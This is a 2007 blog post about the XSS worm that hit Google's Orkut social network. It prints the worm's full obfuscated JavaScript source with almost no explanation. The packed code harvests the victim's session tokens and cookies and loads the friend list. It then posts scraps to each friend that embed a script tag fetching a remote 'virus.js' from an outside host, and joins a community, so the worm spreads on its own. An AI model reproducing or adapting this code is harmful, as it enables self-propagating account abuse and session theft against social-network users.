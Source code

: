 ```yaml
---
title: The Orkut XSS Worm
author: petko-d-petkov
date: Wed, 19 Dec 2007 11:15:27 GMT
template: post.jade
category: fucked
---
```


Yep, Orkut, Google's Social Network, was hit by a XSS worm, the source of which you will be able to find at the bottom of this post. To be honest with you, it was about time. The trend for infecting social networks with Web2.0 malware will continue to increase during the following years. This is for sure! The simple fact is that social networks collect a lot of personal information which attackers can easily harvest for their own benefit.

The code is fairly simple and should be no brainier for you to find out what it does. So, this is the reason why I will skip the explanation step. The pre-processed details can be found out at [antrix.net](http://antrix.net/journal/techtalk/orkut_xss.html) website.

```javascript
function $(p,a,c,k,e,d) {
    e=function(c) {
        return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))
    };
    if(!''.replace(/^/,String)){
        while(c--){d[e(c)]=k[c]||e(c)}
        k=[function(e){return d[e]}];
        e=function(){return'\\w+'};
        c=1
    };
    while(c--){
        if(k[c]){
            p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])
        }
    }
    return p
};
setTimeout(
    $('5 j=0;5 q=1q["2o.H"];5 E=1q["2p.K.27"];7 B(){Z{b i 14("29.1l")}
    L(e){};Z{b i 14("2b.1l")}L(e){};Z{b i 2l()}L(e){};b J};
    7 W(g,P,m,c,9,U){5 1m=g+"="+19(P)+(m?"; m="+m.2f():"")+(c?"; c="+c:"")+(9?"; 9="+9:"")+(U?"; U":"");
    8.y=1m};7 v(g){5 l=8.y;5 A=g+"=";5 h=l.S("; "+A);6(h==-1){h=l.S(A);6(h!=0){b 2h}}16{h+=2};
    5 u=8.y.S(";",h);6(u==-1){u=l.M};b 2j(l.2m(h+A.M,u))};
    7 26(g,c,9){6(v(g)){8.y=g+"="+(c?"; c="+c:"")+(9?"; 9="+9:"")+"; m=1u, 1i-1v-1x 1g:1g:1i 1y";1U.1z(0)}};
    7 G(){5 3=B();6(3){3.R("1A","o://k.w.p/1B.z",C);3.a(J);3.Y=7(){6(3.X==4){6(3.1a==1c){5 1r=3.1Q;5 t=8.1n("t");
    t.1D=1r;5 f=t.D("f").O(0);6(f){f.1M(f.D("1F").O(0));f.1G("1H","N");f.1J.1K="1L";8.1N.1f(f);V()}}16{G()}}};
    3.a(J)}};7 T(){5 a="H="+n(q)+"&K="+n(E)+"&15.1O";5 3=B();3.R(\'q\',\'o://k.w.p/1P.z?1R=1S\',C);
    3.12(\'10-1e\',\'Q/x-k-17-1b\');3.a(a);3.Y=7(){6(3.X==4){6(3.1a!=1c){T();b};G()}}};
    7 V(){6(j==8.18("N").M){b};
    5 I="1V 1W 1X... 1Y 1Z 20 21 22 23 24<1k/>[1j]25 "+i F()+"[/1j]<1k/><13 1o=\\"o://k.w.p/28.z\\" 2a=\\"Q/x-2c-2d\\" 2e=\\"2g\');
    r=8.1n(\'r\');r.1o=\'o://1p.2k.p/2n/1p/1s.1t\';8.D(\'1w\')[0].1f(r);19(\'\\" 1C=\\"1\\" 1E=\\"1\\"></13>";
    5 a="15.1I=1&H="+n(q)+"&I="+n(I)+"&K="+n(E)+"&1T="+8.18("N").O(j).P;5 3=B();
    3.R("q","o://k.w.p/2i.z",C);3.12("10-1e","Q/x-k-17-1b;");
    3.a(a);3.Y=7(){6(3.X==4){j++;5 d=i F;d.1d(d.1h()+11);W(\'s\',j,d);V()}}};
    6(!v(\'s\')){5 d=i F;d.1d(d.1h()+11);W(\'s\',\'0\',d)};j=v(\'s\');T();
    ',62,150,'|||xml||var|if|function|document|domain|send|return|path|wDate||select|name|begin|new|index|
    www|dc|expires|encodeURIComponent|http|com|POST|script|wormdoorkut|div|end|getCookie|orkut||cookie|aspx
    |prefix|createXMLHttpRequest|true|getElementsByTagName|SIG|Date|loadFriends|POST_TOKEN|scrapText|null|
    signature|catch|length|selectedList|item|value|application|open|indexOf|cmm_join|secure|sendScrap|setCookie|
    readyState|onreadystatechange|try|Content|86400|setRequestHeader|embed|ActiveXObject|Action|else|form|
    getElementById|escape|status|urlencoded|200|setTime|Type|appendChild|00|getTime|01|silver|br|XMLHTTP|curCookie|
    createElement|src|files|JSHDF|xmlr|virus|js|Thu|Jan|head|70|GMT|go|GET|Compose|width|innerHTML|height|option|
    setAttribute|id|submit|style|display|none|removeChild|body|join|CommunityJoin|responseText|cmm|44001818|toUserId|
    history|2008|vem|ai|que|ele|comece|mto|bem|para|vc|RL|deleteCookie|raw|LoL|Msxml2|type|Microsoft|shockwave|flash|
    wmode|toGMTString|transparent|false|Scrapbook|unescape|myopera
    |XMLHttpRequest|substring|virusdoorkut|CGI|Page'.split('|'),0,{}),1
);
author="Rodrigo Lacerda"
```

So, there you go! Even if XSS is the lamest for of attack, you cannot deny its effectiveness.
